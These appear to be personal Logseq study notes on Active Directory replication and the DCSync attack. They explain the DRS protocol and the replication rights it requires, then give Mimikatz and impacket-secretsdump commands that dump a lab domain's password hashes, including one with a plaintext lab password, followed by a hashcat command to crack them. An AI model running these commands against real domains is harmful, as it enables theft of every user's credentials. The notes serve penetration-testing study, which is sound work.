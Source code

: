 public:: true
alias:: Domain Controller Synchronization

- Since the Domain Controller is a critical part of the AD infrastructure it's important to add redundancy. That can be acomplished by running multiple DC instances *(or replicas)* within the same domain.
- To help with that, the **[Directory Replication Service (DRS) Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47?redirectedfrom=MSDN)** was implemented to allow synchronization among multiple DC instances.
- To synchronize *(download)* AD objects from a DC a user can call the [`IDL_DRSGetNCChanges`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) API *(part of DRS)*.
  *Ça va sans dire* that in order to succeed, the domain account submitting the request requires [some special privileges](https://www.secureideas.com/blog/the-other-replicating-directory-changes):
	- *Replicating Directory Changes*
	  logseq.order-list-type:: number
	- *Replicating Directory Changes All*
	  logseq.order-list-type:: number
	- *Replicating Directory Changes in Filtered Set*
	  logseq.order-list-type:: number
- Member of the following groups automatically get all the required permissions assigned.
	- Domain Admins
	- Enterprise Admins
	- Administrators
- #+BEGIN_WARNING
  Even if it's counter-intuitive, DC synchronization is not limited to domain controllers. Instead, any domain user with the right permissions can issue synchronization requests to DCs.
  
  IOW, we can dump all the secrets from an online DC if we perform the request from the right user.
  #+END_WARNING
- Synchronization requests can be send over LDAP or RPC. But DCs only expose password hashes via RPC.
- DCSync Attack
	- Once you got access to a user account in **one of those above mentioned groups** or with **all the above mentioned rights** assigned, then you can impersonate a domain controller. This allows you to request any user credentials from the domain.
	- From Windows
		- You can run [[Mimikatz]] from a domain-joined machine. Let use it to request Dave's password hash.
		  id:: 65a004e9-a008-4ad6-926f-fa50ba4608f6
			- ```
			  lsadump::dcsync /user:corp\dave
			  ```
			- Request password-hashes for all the users in the domain
				- ```mimikatz
				  lsadump::dcsync /domain:test.com /all /csv
				  ```
				- TODO need to test this command
				  background-color:: pink
	- From Linux
		- With [[Impacket-secretsdump]]
			- ```bash
			  impacket-secretsdump \
			  	-just-dc-user dave \
			      corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
			  ```
			- Request password-hashes for all the user in the domain
				- ```bash
				  impacket-secretsdump \
				  	-just-dc-ntlm \
				      corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
				  ```
- Crack retrieved hashes
	- With [[Hashcat]]
		- id:: 65a00895-d0d1-4168-9b92-6dfa7401d3d7
		  ```bash
		  hashcat -m 1000 hashes.dcsync \
		  	/usr/share/wordlists/rockyou.txt \
		      -r /usr/share/hashcat/rules/best64.rule \
		      --force
		  ```